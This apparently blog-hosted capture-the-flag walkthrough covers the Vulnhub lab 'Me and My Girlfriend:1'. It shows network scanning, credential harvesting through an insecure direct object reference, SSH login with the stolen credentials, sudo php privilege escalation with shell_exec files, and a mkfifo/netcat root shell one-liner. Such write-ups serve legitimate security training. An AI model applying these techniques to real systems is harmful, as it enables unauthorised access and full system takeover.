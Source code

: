 ```yaml
---
layout: post
title: Me and My Girlfriend:1 Walkthrough
categories: [CTF,Vulnhub]
---
```


As usual I start to scan network. I used masscan as it is faster compare to nmap. I scanned for port 80 as this is common port for CTF machines.
```
masscan -p80 192.168.1.0/24
```

![](/images/vuln_me_girlfriend/masscan.png)

I noticed that only 2 target as available. As one of that is my default gateway i decide to can 192.168.1.73. In your case... 99% IP address will be different.

I decide to to full scan againts this machine. I used nmap
```
nmap -A -sV -T4 -p- 192.168.1.73
```
I used these options as -A will give you os datection and script scanning. Always use -sV to get version detection. I know that -A -sV are same so dont judge :) Option -T4 is more aggresive scanning that normal. and -p- is shortcut to scan all ports.

![](/images/vuln_me_girlfriend/nmap_full_scan.png)

As you can see from output only port 80 and 22 are open. I decide to explore port 80. I lunched webbrowser and get some 'felling' how web sites is looking. 

![](/images/vuln_me_girlfriend/webpage_index.png)

As you can see there is some login/register options and some static pages. 
After register i was able to log in and was redirect to home page as register user. Except change profile there was nothing interesting. 

![](/images/vuln_me_girlfriend/test_profile.png)

As you can see from url there is ID=14. I decide to change to 1 and BINGO. I was able to see profiles of other users. 
You could decide to check every user and grab his/her username and password. Them you can run hydra against port 22. But as from describtion of this machine Alice was person who was hiding something. I found Alice profile and decide to use her credentials to login into machine...

![](/images/vuln_me_girlfriend/ssh_login.png)

I was in. With little poking around Alice has hidden folder with all her secrets and also first flag. 

![](/images/vuln_me_girlfriend/flag_1.png)

After start looking for priviledge escalation as start searching for some sticky bits or some clues. Them after reading few linux simple priviledge escalation tricks. I tried this command

```
sudo -l
```

This command will show commands which you can run as sudo with out root password. I command was there... php. Created some simple shell.php file below.

```php
<?php
$output = shell_exec('ls /root');
echo "$output";
?>
```

Run it as 
```bash
sudo php -f shell.php
```
and get list files from root directory. There was on only one file... flag2.txt. Decide to change my php file a  little bit to get output of this file

```php
<?php
$output = shell_exec('cat /root/flag2.txt');
echo "$output";
?>
```

and hurray got second flag...

![](/images/vuln_me_girlfriend/flag_2.png)

That's it all, right? Well i was happy i pwned this machine but them i asked my self. Can I used this priviledge escalation misconfiguration to get proper root shell? Challange accepted. I know you can use nc and -e to bind bash to you but version nc on that machine was did not have -e. After asking my search engine for help. I was able to find article where this exact nc version can be use to get access to shell. I changed my shell to this one.

```php
<?php
$a = shell_exec('mkfifo f');
$a = shell_exec('nc localhost 4444 0<f | /bin/sh -i 2>&1 | tee -f');
?>
```

Run 'screen' commnad to have to virtual sessions. Lunch nc to listen on port 4444. Move to second session and run my php file. BAAAM i have root shell :) 

![](/images/vuln_me_girlfriend/root_shell.png)

I hope you like this walkthrough
